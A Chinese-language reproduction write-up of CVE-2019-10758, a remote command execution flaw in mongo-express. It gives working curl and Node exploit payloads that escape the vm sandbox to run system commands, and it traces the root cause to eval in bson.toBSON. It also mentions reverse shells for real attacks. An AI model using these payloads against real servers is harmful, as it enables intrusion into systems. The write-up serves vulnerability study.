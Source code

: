 # （CVE-2019-10758）Mongo expres 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Mongo DB/CVE-2019-10758.html](http://book.iwonder.run/0day/Mongo DB/CVE-2019-10758.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

## cURL exploit

```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")' 
```

## Script exploit

```
node main.js
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

var bson = require('mongo-express/lib/bson')
bson.toBSON(exploit) 
```

很明显从 exploit 中我们能明显得出以下两个结论：

1.  存在 RCE 漏洞的代码位于 `mongo-express/lib/bson`
2.  路由 `/checkValid` 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险

首先定位可以接受外界输入的路由 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：)

首先定位可以接受外界输入的路由 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：)

```
const router = function (config) {
  // 省略其他无关代码
  const appRouter = express.Router();
  appRouter.post('/checkValid', mongoMiddleware, configuredRoutes.checkValid);
  return appRouter;
} 
```

继续定位 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/routes/document.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/routes/document.js：)

```
var routes = function (config) {
  // 省略其他无关代码
  var exp = {};
  exp.checkValid = function (req, res) {
    var doc = req.body.document;
    try {
      bson.toBSON(doc);
    } catch (err) {
      console.error(err);
      return res.send('Invalid');
    }

    res.send('Valid');
  };
  return exp;
} 
```

可以很明显看到这里会从 POST 请求中读取 `document` 并作为参数继续调用 `bson.toBSON(doc);`，而根据我们之前的分析，漏洞代码有 99% 的可能性位于 `bson.toBSON` 函数内，所以继续分析源码，[https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/bson.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/bson.js：)

```
var mongodb = require('mongodb');
var vm      = require('vm');
var json    = require('./json');

// 省略一些无关代码

//JSON.parse doesn't support BSON data types
//Document is evaluated in a vm in order to support BSON data types
//Sandbox contains BSON data type functions from node-mongodb-native
exports.toBSON = function (string) {
  var sandbox = exports.getSandbox();

  string = string.replace(/ISODate\(/g, 'new ISODate(');
  string = string.replace(/Binary\(("[^"]+"),/g, 'Binary(new Buffer($1, "base64"),');

  vm.runInNewContext('doc = eval((' + string + '));', sandbox);

  return sandbox.doc;
};

// This function as the name suggests attempts to parse
// the free form string in to BSON, since the possibilities of failure
// are higher, this function uses a try..catch
exports.toSafeBSON = function (string) {
  try {
    var bsonObject = exports.toBSON(string);
    return bsonObject;
  } catch (err) {
    return null;
  }
}; 
```

重点出现！>>> `vm.runInNewContext('doc = eval((' + string + '));', sandbox);`

对 nodejs 的沙箱逃逸有所关注的朋友很容易就能注意到这段代码和 vm 沙盒逃逸代码 demo 的惊人相似：

```
const vm = require('vm');

vm.runInNewContext('this.constructor.constructor("return process")().exit()'); 
```

在这里，由于用户输入的最终会被拼接上 `eval`，所以很容易就能导致 RCE。可以看到作者的 exploit 就是获得全局上下文后直接导入 `child_process` 来执行系统命令：

```
this.constructor.constructor("return process")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator') 
```

![image](img/6e5aeaac0d3537660706b47ca21d56fd.png)

不过由于这是个没有回显的 RCE，因此在实际漏洞利用的时候可能需要反弹 shell 之类的操作来辅助漏洞的利用。

